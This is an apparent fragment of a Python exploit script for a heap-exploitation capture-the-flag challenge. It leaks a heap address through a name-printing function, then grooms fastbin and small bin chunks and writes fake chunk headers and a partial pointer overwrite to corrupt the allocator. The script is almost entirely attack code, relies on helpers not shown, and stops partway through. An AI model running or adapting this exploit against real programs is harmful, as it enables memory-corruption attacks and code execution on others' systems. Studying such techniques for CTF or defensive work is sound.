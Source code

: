 ```python
def showname():
	sh.send("4\n")
	sh.recvuntil("Name: " + "A" * 0x20)
	ret = sh.recvuntil("\n")
	sh.recvuntil("4. Show info\n")
	return ret[:len(ret)-1]

sh.send("A" * 0x20)
sh.recvuntil("4. Show info\n")

#----------------leak heap
mymalloc(0x100, 0)
heap_addr = u64(showname() + "\x00\x00") - 0x10
print hex(heap_addr)
myfree(0)

#----------------small bin attack
# fake_chunk_1[0] = 0;
# fake_chunk_1[1] = 0;
# fake_chunk_1[2] = victim_chunk; # at 0x90 chunk smallbin
# fake_chunk_1[3] = (intptr_t*)fake_chunk_2;
# fake_chunk_2[2] = (intptr_t*)fake_chunk_1;

# fake the fake chunk in the fastbin

mymalloc(0x80, 0)
mymalloc(0x180, 1) # this will cover 2
myfree(0)
myfree(1)
mymalloc(0x90, 0)
mymalloc(0x80, 2) # victim chunk
myfree(0)
myfree(2)
mymalloc(0x1F0, 0) # control first 0x200 chunk
#0 1 2 used to prepare victim chunk in fastbin

mymalloc(0x80, 3)
mymalloc(0x180, 4) # this will cover 5
myfree(3)
myfree(4)
mymalloc(0x90, 3)
mymalloc(0x80, 5)
myfree(3)
myfree(5)
mymalloc(0x1F0, 3) # control first 0x200 chunk
#3 4 5 used to prepare fake_chunk_2 chunk in fastbin

#topchunk 400

mywrite(1, p64(0) + p64(0x41) + 'A' * 0x38 + p64(0x41))
mywrite(4, p64(0) + p64(0x51) + 'B' * 0x48 + p64(0x51))
myfree(2)
myfree(5)
#fake the fake chunk1

mywrite(4, p64(0) + p64(0x91) + 'C' * 0x88 + p64(0x21) + 'D' * 0x18 + p64(0x21))
myfree(5)
mymalloc(0x80, 6)
mywrite(5, chr(FAKE_CHUNK_LSB)) # fake_chunk_2[2] = (intptr_t*)fake_chunk_1;
#now 0x40 0x50 fastbin, others empty

mywrite(1, p64(0) + p64(0x91) + 'C' * 0x88 + p64(0x21) + 'D' * 0x18 + p64(0x21))
myfree(2)
```